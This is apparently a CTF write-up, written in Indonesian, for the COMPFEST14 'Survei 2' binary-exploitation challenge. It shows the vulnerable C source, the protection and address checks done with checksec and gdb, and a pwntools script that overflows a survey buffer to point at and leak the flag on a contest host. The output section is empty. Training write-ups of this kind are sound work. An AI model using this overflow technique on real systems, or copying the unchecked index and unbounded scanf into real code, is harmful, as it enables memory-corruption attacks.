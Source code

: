 # Survei 2

> Write-up author: jon-brandy

## DESKRIPSI:

[survei](https://github.com/jon-brandy/COMPFEST14-BAY-WU/blob/fc9adddd6a2a7e8ab233bfe618bcc4bbb0e2a097/Asset/Binary%20Exploitation/Survei%202/survei)

[survei.c](Vhttps://github.com/jon-brandy/COMPFEST14-BAY-WU/blob/fc9adddd6a2a7e8ab233bfe618bcc4bbb0e2a097/Asset/Binary%20Exploitation/Survei%202/survei.c)

## LANGKAH-LANGKAH:
1. Pertama unzip file `.zip` yang diberikan.

> HASIL

![image](https://user-images.githubusercontent.com/70703371/188115991-f41b2102-387b-4dc2-8b61-d96f4c96a2b0.png)

2. Jalankan `chmod +x survei` agar program dapat dieksekusi.
3. Setelah itu cek terlebih dahulu proteksi yang diberikan pada program dengan menjalankan `checksec --file survei`.

> HASIL

![image](https://user-images.githubusercontent.com/70703371/188116853-8e5e5d5a-7724-49d7-a77f-aef5d4b51e69.png)

4. Dikarenakan **no pie** menandakan memory yang tersimpan akan selalu berada di tempat yang sama.
5. Selanjutnya cek source-code yang diberikan.

> SURVEI.C

```c
#include<stdio.h>
#include<stdlib.h>

struct data {
    char *str;
};
char flag[40];
struct data *survei[8];

void printMenu() {
    printf("1. Isi survei\n2. Lihat survei\n3. Keluar\n> ");
}

void isiSurvei() {
    int p;
    printf("Di manakah survei ingin disimpan?: ");
    scanf("%d", &p);
    printf("Isi survei: ");
    scanf("%s", survei[p]->str);
    printf("Survei berhasil disimpan di: %d\n", p);
}

void lihatSurvei() {
    int p;
    printf("Survei manakah yang ingin dilihat: ");
    scanf("%d", &p);
    printf("%s\n", survei[p]->str);
}

int main(int argc, char const *argv[]) {
    setvbuf(stdout, NULL, _IONBF, 0);
    FILE *fp = fopen("flag.txt", "r");
    fgets(flag, 40, fp);
    
    int i;
    for (i = 0; i < 8; i++) {
        survei[i] = malloc(sizeof(struct data));
        survei[i]->str = malloc(32);
    }
    
    while (1) {
        printMenu();
        int choice;
        scanf("%d", &choice);
        if (choice == 1) {
            isiSurvei();
        } else if (choice == 2) {
            lihatSurvei();
        } else {
            printf("Bye.\n");
            return 0;
        }
    }
}

```

6. Setelah melakukan analisis source-code, nampaknya kita hanya perlu mencari address dari flag dan melakukan padding sebanyak 48.

> NOTES

```
48 -> size buffer dari flag + size buffer dari pointer survei
```

7. Saya menggunakan `gdb` untuk mencari address dari flag

> GDB

![image](https://user-images.githubusercontent.com/70703371/188117558-f41cd6bc-1bf5-4d3b-9ff7-0ae4e2a0df3a.png)

> ADDRESS FLAG

```
0x6010e0
```

8. Langkah selanjutnya kita harus mengontrol `return address`, untuk itu saya menggunakan **pwntools** di script python sebagai berikut:

```py
import os
from pwn import *

os.system('clear')

sh = remote('103.185.38.238', 17835)

p = b'A' * 48
p += p64(6295776) # decimal value dari address flag

sh.sendline(b'1')
sh.sendline(b'0')

sh.sendline(p)

sh.sendline(b'2')
sh.sendline(b'1')

sh.interactive()
```

> OUTPUT

